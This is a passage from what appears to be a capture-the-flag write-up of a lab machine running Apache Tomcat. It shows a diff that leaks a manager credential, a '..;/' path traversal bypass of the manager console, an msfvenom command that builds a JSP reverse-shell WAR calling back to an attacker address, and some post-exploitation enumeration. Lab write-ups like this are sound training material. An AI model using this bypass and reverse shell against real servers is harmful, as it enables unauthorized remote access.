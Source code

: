        <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
       <user username="role1" password="<must-be-changed>" roles="role1"/>
    -<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
    +      <!-- Use the LockOutRealm to prevent attempts to guess user passwords
    +  you must define such a user - the username and password are arbitrary. It is
    +  them. You will also need to set the passwords to something appropriate.
    +  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
    +  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
    +  <user username="role1" password="<must-be-changed>" roles="role1"/>
    +<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
    ```

    Accessing tomcat through the path `/manager` we're automatically redirected to `/manager/html`, which is prevented by mutual authentication. Looking for another URL under management console, found in this documentation page [Apache Tomcat 7 (7.0.109) - Manager App HOW-TO](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html) a few other URLs, being `/manager/text` the first one listed, to which I'm not authorized. Trying the second URL found on the same page, which is `/manager/status`, once already authenticated, returned server information but as this is a static page there's nothing to do here.

## Initial Access

Once I have nothing to do on this page, and the RCE most probable will be via Apache Tomcat manager, once we have `manager-gui,admin-gui` privileges, started to try some directory traversal attacks based on [PayloadsAllTheThings/Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal) and, testing a bypass with `..;/` I have succeeded on accessing the management console at `https://seal.htb/manager/status/..;/html`.

Once we now have access to the manager console, we can upload a reverse shell payload generated using `msfvenom` as command below

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war > reverse.war
```

:bulb: **Tip**: One important point here is that I needed to intercept all page requests so I could adjust the post request to the path traversal vulnerability found
{: .notice--info}

## User flag

Enumerating this box, now that we have an interactive shell, ran `linpeas.sh`, where these were the findings identified:

- Users with console access:

  ```plaintext
  uid=0(root) gid=0(root) groups=0(root)
  uid=1000(luis) gid=1000(luis) groups=1000(luis)
  ```

- Read access to Nginx logs at `/var/log/nginx/` where we could extract some information from the logs

- Readable backup archives at `/opt/backups/archives/`, created by `luis`
